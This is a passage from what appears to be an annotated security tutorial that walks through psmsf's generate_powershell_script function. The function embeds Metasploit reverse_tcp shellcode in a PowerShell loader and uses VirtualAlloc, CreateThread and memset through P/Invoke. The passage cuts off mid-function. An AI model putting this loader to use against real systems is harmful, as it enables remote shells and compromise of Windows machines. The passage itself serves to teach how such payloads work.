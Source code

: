 `psmsf` then passes the cleaned up `reverse_tcp` shellcode to a function (`generate_powershell_script`) that embeds it into a PowerShell script that is going to become the main part of our payload.

That code looks like the following, I have added the annotations to help you understand how it works:


{title="psmsf", linenos=off, lang=python}
    def generate_powershell_script(shellcode):
      shellcode = (
        # Assign a reference to the string that is the C# signature of the VirtualAlloc,
        #    CreateThread, and memset function... to $c.
        # Assign a reference to the string that starts immediately before $c and finishes at
        #    the end of the Start-sleep command... to S1.
        "$1 = '$c = ''"
        # Import the kernel32.dll that has the native VirtualAlloc function we later use
        #    to provide us with the starting position in memory to write our shellcode to.
        "[DllImport(\"kernel32.dll\")]"
        "public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);"
        "[DllImport(\"kernel32.dll\")]"
        "public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);"
        "[DllImport(\"msvcrt.dll\")]"
        "public static extern IntPtr memset(IntPtr dest, uint src, uint count);"
        "'';"
    
        # Add a VirtualAlloc, CreateThread, and memset functions of the C# signatures we
        #    assigned to $c to the PowerShell session as static methods
        #    of a class that Add-Type is about to create on the fly.
        # Add-Type uses Platform Invoke (P/Invoke) to call the VirtualAlloc, CreateThread,
        #    and memset functions as required from the kernel32.dll.
        # The Name and namespace parameters are used to prefix the new type. passthru is used
        #    to create an object that represents the type which is then assigned to $w